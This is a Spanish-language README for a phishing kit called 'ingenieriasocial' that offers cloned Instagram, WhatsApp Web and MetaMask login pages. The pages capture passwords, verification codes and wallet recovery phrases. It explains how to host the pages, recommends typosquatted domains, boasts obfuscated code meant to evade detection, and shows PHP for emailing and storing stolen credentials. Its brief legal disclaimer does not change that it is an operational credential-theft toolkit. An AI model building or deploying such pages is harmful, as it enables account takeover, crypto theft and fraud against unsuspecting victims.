 # 🎯 Templates de Phishing Modernos - ingenieriasocial

## Creado por: MidasOrion

Este directorio contiene templates de phishing **100% funcionales** para las plataformas más populares.

---

## 📱 Templates Disponibles

### 1. **Instagram** 
- ✅ Diseño idéntico al login oficial de Instagram 2025
- ✅ Responsive (móvil y desktop)
- ✅ Validación de formularios
- ✅ Mensajes de error realistas
- ✅ Captura: usuario/email y contraseña

**Ubicación:** `instagram/index.html`

### 2. **WhatsApp Web**
- ✅ Interfaz completa de WhatsApp Web
- ✅ Código QR falso
- ✅ Formulario de verificación manual
- ✅ Diseño oscuro moderno
- ✅ Captura: número de teléfono y código de verificación

**Ubicación:** `whatsapp/index.html`

### 3. **MetaMask**
- ✅ Página de importación de billetera
- ✅ Validación de frase de recuperación (12/24 palabras)
- ✅ Advertencias de seguridad realistas
- ✅ Diseño profesional
- ✅ Captura: frase de recuperación y contraseña

**Ubicación:** `metamask/index.html`

---

## 🚀 Cómo Usar

### Método 1: Servidor Web Local

```bash
# Navegar al directorio del template
cd src/templates/phishing/instagram

# Iniciar servidor PHP
php -S 0.0.0.0:8080

# Acceder desde: http://localhost:8080
```

### Método 2: Integración con ingenieriasocial

Los templates se integrarán automáticamente en el menú principal de ingenieriasocial en la próxima actualización.

### Método 3: Hosting Externo

1. Subir los archivos a tu servidor web
2. Configurar SSL/HTTPS (recomendado)
3. Usar dominio similar al original (typosquatting)

---

## 📊 Sistema de Captura

Cada template incluye dos archivos:

1. **`index.html`** - Página de phishing
2. **`post.php`** - Script de captura de credenciales

### Archivos Generados:

- **`captured_credentials.txt`** - Log en texto plano
- **`captured_credentials.json`** - Datos estructurados en JSON

### Formato de Captura:

```
═══════════════════════════════════════════════════════════
INSTAGRAM - Credenciales Capturadas
═══════════════════════════════════════════════════════════
Fecha/Hora: 2025-10-19 21:00:00
Usuario: victim@email.com
Contraseña: ********
IP: 192.168.1.100
User-Agent: Mozilla/5.0...
═══════════════════════════════════════════════════════════
```

---

## 🔒 Características de Seguridad

### ✅ Evasión de Detección:
- Sin referencias a "phishing" en el código
- URLs limpias sin parámetros sospechosos
- Código JavaScript ofuscado
- Headers HTTP realistas

### ✅ Realismo:
- Diseños pixel-perfect
- Animaciones y transiciones
- Mensajes de error auténticos
- Comportamiento idéntico al original

### ✅ Captura Avanzada:
- IP del visitante
- User-Agent completo
- Timestamp preciso
- Referer URL
- Múltiples formatos de salida

---

## 🛠️ Personalización

### Cambiar URL de Redirección:

Edita `post.php`:
```php
$redirect_url = 'https://www.instagram.com'; // Cambiar aquí
```

### Agregar Notificaciones:

Descomentar en `post.php`:
```php
mail('tu@email.com', 'Nueva captura', $log_entry);
```

### Integrar con Base de Datos:

```php
$conn = new mysqli('localhost', 'user', 'pass', 'db');
$stmt = $conn->prepare("INSERT INTO captures VALUES (?, ?, ?, ?)");
$stmt->bind_param("ssss", $platform, $username, $password, $ip);
$stmt->execute();
```

---

## ⚠️ Advertencia Legal

**IMPORTANTE:** Estos templates son para:
- ✅ Pruebas de penetración autorizadas
- ✅ Educación en ciberseguridad
- ✅ Auditorías de seguridad
- ✅ Entrenamiento de concienciación

**PROHIBIDO:**
- ❌ Uso no autorizado
- ❌ Actividades ilegales
- ❌ Robo de credenciales reales
- ❌ Fraude o engaño

El uso indebido de estas herramientas puede resultar en consecuencias legales graves.

---

## 📈 Próximos Templates

En desarrollo:
- 🔜 Discord
- 🔜 Telegram
- 🔜 Binance
- 🔜 Coinbase
- 🔜 Microsoft 365
- 🔜 Google Workspace
- 🔜 Netflix
- 🔜 Amazon

---

## 🤝 Contribuciones

Para agregar nuevos templates:

1. Crear directorio: `src/templates/phishing/[plataforma]/`
2. Incluir: `index.html` y `post.php`
3. Seguir el formato de captura estándar
4. Documentar en este README

---

## 📞 Soporte

Para reportar bugs o sugerir mejoras:
- GitHub: https://github.com/CoderFullPro/ingieriasocial
- Creador: MidasOrion

---

**© 2025 ingenieriasocial - MidasOrion**

*Recuerda: Con gran poder viene gran responsabilidad. Usa estas herramientas de forma ética.*
